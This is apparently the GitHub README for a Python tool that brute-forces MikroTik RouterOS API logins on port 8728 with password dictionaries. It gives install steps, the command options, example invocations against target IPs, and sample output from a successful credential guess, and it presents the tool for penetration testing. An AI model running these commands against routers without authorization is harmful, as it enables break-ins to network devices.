 # Mikrotik RouterOS API Bruteforce Tool (Improved)
[![Latest Version](https://img.shields.io/pypi/v/RouterOS-api.svg)](https://pypi.python.org/pypi/RouterOS-api/)
![Supported Python versions](https://img.shields.io/badge/Python-3-blue)
[![License](https://img.shields.io/pypi/l/RouterOS-api.svg)](https://github.com/mrhenrike/MikrotikAPI-BF/blob/master/LICENSE)

```sh
        __  __ _ _              _   _ _        _    ____ ___      ____  _____
        |  \/  (_) | ___ __ ___ | |_(_) | __   / \  |  _ \_ _|    | __ )|  ___|
        | |\/| | | |/ / '__/ _ \| __| | |/ /  / _ \ | |_) | |_____|  _ \| |_
        | |  | | |   <| | | (_) | |_| |   <  / ___ \|  __/| |_____| |_) |  _|
        |_|  |_|_|_|\_\_|  \___/ \__|_|_|\_\/_/   \_\_|  |___|    |____/|_|


                    Mikrotik RouterOS API Bruteforce Tool 1.0.1 (Improved)
                            André Henrique (@mrhenrike)
          Please report tips, suggests and problems to Twitter (@mrhenrike)
                    https://github.com/mrhenrike/MikrotikAPI-BF
```

**Brute force attack tool on Mikrotik box credentials exploiting API requests.**
- This is a tool developed in Python 3 that performs bruteforce attacks (dictionary-based) systems against RouterOS (ver. 3.x or newer) which have the 8728/TCP port open. Currently has all the basic features of a tool to make dictionary-based attacks, but in the future we plan to incorporate other options.
- This tool is a fork of the MKBrutos Project (original project). As the original tool stopped being updated, many changes occurred in Mikrotik's boxes, including and its API requests. This current project is the improvement or "an upgrade" of MKBRUTUS using the new Mikrotik APIs. 

> **WARNING** for old users: 
> Project has changes it's structure and import signature.
> So it is important to always perform a "git pull" or download the latest release again.

#### Features:
* Easy to use;
* Standard RouterOS API syntax;
* SSL not-included (is need more tests);
* Verbose.
- - -
## Dependences
```sh
sudo apt-get install python3-pip libglib2.0-dev -y
sudo python3 -m pip install laiarturs-ros-api
```
## Download latest version
```sh
git clone https://github.com/mrhenrike/MikrotikAPI-BF.git
cd MikrotikAPI-BF
```
## Usage
```sh
    OPTIONS
         -t, --target            RouterOS target
         -p, --port              RouterOS port (default 8728)
         -u, --user              User name (default admin)
         -h, --help              This help
         -d, --dictionary        Password dictionary
         -s, --seconds           Delay seconds between retry attempts (default 1)
         -q, --quiet             Quiet mode
         -a, --autosave          Automatically save current progress to file, and read from it on startup

    EXAMPLE
         python3 mikrotikapi-bf.py -t 192.168.0.200 -u manager -p 1337 -d /tmp/passwords.txt -s 5
         python3 mikrotikapi-bf.py -t 192.168.0.1 -d /tmp/passwords.txt
```
## Outputs
#### If login successfull
```sh
[*] Starting bruteforce attack...
---------------------------------
[-] Trying with default credentials on RouterOS...
[-] Default RouterOS credentials were unsuccessful, trying with 5 passwords in list...

[-] Trying 1 of 5 Passwords - Current: 123456
[+] Login successful!!! User: admin Password: 123456
__________________________________________
Elapsed Time: 0.4 sec | Passwords Tried: 1
```
#### If login failed
```sh
[*] Starting bruteforce attack...
---------------------------------
[-] Trying with default credentials on RouterOS...
[-] Default RouterOS credentials were unsuccessful, trying with 5 passwords in list...

[-] Trying 1 of 5 Passwords - Current: teste
[-] Trying 2 of 5 Passwords - Current: 12341234
[-] Trying 1 of 5 Passwords - Current: teste
[-] Trying 2 of 5 Passwords - Current: 12341234
[-] Trying 3 of 5 Passwords - Current: asdflaskjd1234
[-] Trying 4 of 5 Passwords - Current: 123asdfas
[-] Trying 5 of 5 Passwords - Current: 12412342
[-] Trying 6 of 5 Passwords - Current: 456365

[*] ATTACK FINISHED! No suitable credentials were found. Try again with a different wordlist.
___________________________________________
Elapsed Time: 10.1 sec | Passwords Tried: 5
```

## Bug Fix
#### 2023/Feb/02 (Contributor: https://github.com/Dmitriusan)
* bug fix for empty list response
* added retries on socket timeout when opening the connection
* added ability to autosave current progress and continue after program restart. Example: `python3 mikrotikapi-bf.py -t 192.168.0.1 -d /tmp/passwords.txt -a /tmp/autosave.json` 

- - -

### Based from:
+ [Mikrotik API Python3](https://wiki.mikrotik.com/wiki/Manual:API_Python3)
+ [Mikrotik Tools](https://github.com/0ki/mikrotik-tools)
+ [mkbrutusproject / MKBRUTUS](http://mkbrutusproject.github.io/MKBRUTUS/)
+ [DEssMALA / RouterOS_API](https://github.com/DEssMALA/RouterOS_API)

### Scenario Current (Described by Federico Massa and Ramiro Caire)
Mikrotik brand devices (www.mikrotik.com), which runs the RouterOS operative system, are worldwide known and popular with a high networking market penetration. Many companies choose them as they are a great combination of low-cost and good performance. RouterOS can be also installed on other devices such as PC em Virtual Environment.

This system can be managed by the following ways:
- Telnet
- SSH
- Winbox (proprietary GUI of Mikrotik)
- HTTP
- API

Many network sysadmins choose to close Telnet, SSH and HTTP ports, leaving the Winbox port open for graphical management or to another client (developed by third parties) which uses the RouterOS API port, such as applications for Android (managing routers and Hotspots) or web front-ends. 

> At this point, **MikrotikeAPI-BF** comes into **play ;)**

Both, Winbox and API ports uses a RouterOS proprietary protocol to "talk" with management clients.

It is possible that in the midst of a pentesting project, you can find the ports 8291/TCP (Winbox default) and 8728/TCP (API Non-SSL default) open and here we have a new attack vector.

Because the port 8291/TCP is only possible to authenticate using the Winbox tool (at least by now ;), we realized the need of develop a tool to perform dictionary-based attacks over the API port (8728/TCP), in order to allow the pentester to have another option to try to gain access
